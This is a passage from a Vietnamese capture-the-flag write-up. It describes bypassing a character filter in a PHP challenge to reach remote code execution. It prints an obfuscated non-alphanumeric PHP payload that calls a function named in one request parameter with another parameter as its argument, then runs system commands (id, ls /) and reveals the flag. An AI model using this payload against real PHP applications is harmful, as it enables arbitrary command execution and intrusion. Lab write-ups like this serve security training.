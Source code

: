 - Chúng ta đã vượt qua được bộ lọc bây giờ có thể RCE
![alt text](image-26.png)
- Xảy ra lỗi Array to string conversion và sau khi tìm hiểu chúng ta có thể được khắc phục bằng cách thêm <b>@</b> vào phần truy vấn mong muốn thực hiện ép kiểu.
- Payload cuối cùng:
```php
<?=@$_=[]..1;$_=$_[1].$_[1].$_[1].$_[3]^-575..-1;$$_[0]($$_[1]);
```
![alt text](image-27.png)
- Rồi thực hiển RCE với param payload ?0=system&1=id thực thi id thông qua system ở param 1
![alt text](image-28.png)
- Rồi bây giờ mục tiêu cờ ở đâu cùng thực hiện ls / để xem file cờ.
![alt text](image-29.png)
![alt text](image-30.png)
-> Flag: <b>VSL{7e56ae1036160bceaedde8032663810308bd57c1}</b>
## TechStore